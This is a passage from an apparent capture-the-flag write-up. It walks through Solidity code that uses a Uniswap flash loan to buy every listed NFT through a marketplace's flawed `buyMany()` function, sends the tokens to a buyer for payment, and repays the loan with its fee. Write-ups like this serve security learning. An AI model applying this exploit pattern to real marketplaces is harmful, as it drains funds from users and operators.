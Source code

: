 After withdrawing the ether, I create an array of integers with all the token IDs for the NFTs we want to buy. I defined this function to generate a dynamic array of integers with values from 0 to `size`:

```cs
function arrayOfIntegers(uint256 size) private returns (uint256[] memory) {
    uint256[] memory uintArray = new uint256[](size);
    for (uint256 i = 0; i < size; i++) {
        uintArray[i] = i;
    }
    return uintArray;
}
```

I'm sure there's much better ways to do this, but here we are. Anyway, With this function I generate the array:

```cs
uint256 amountOfOffers = marketplace.amountOfOffers();
uint256[] memory tokenIdsArray = arrayOfIntegers(amountOfOffers);
```

Which must be passed to the marketplace's `buyMany()` function along with the 15 ether:

```cs
marketplace.buyMany{value: amount}(tokenIdsArray);
```

Then the NFTs must be transferred to the buyer, so we loop over token IDs and perform a `safeTransferFrom()`, I coded a short function for this to keep `uniswapV2Call()` cleaner:

```cs
function bulkSafeTransferNFT(uint256[] memory tokenIds) private {
    for (uint256 i = 0; i < tokenIds.length; i++) {
        nft.safeTransferFrom(address(this), address(buyer), tokenIds[i]);
    }
}
```

Then I call this function to send the corresponding purchased tokens to the buyer, so the attacker can get the payment for them:

```cs
bulkSafeTransferNFT(tokenIdsArray);
```

Then the amount to repay has to be computed, as there's a 0.3% fee on top of the loan taken from Uniswap:

```cs
uint256 amountToRepay = amount + (((amount*3)/997)+1);
```

Then the loan can be repayed depositing the ETH to get WETH and transferring the WETH back into the pair address:

```cs
weth.functionCallWithValue(abi.encodeWithSignature("deposit()"), amountToRepay);
IERC20(weth).transfer(address(pair), amountToRepay);
```
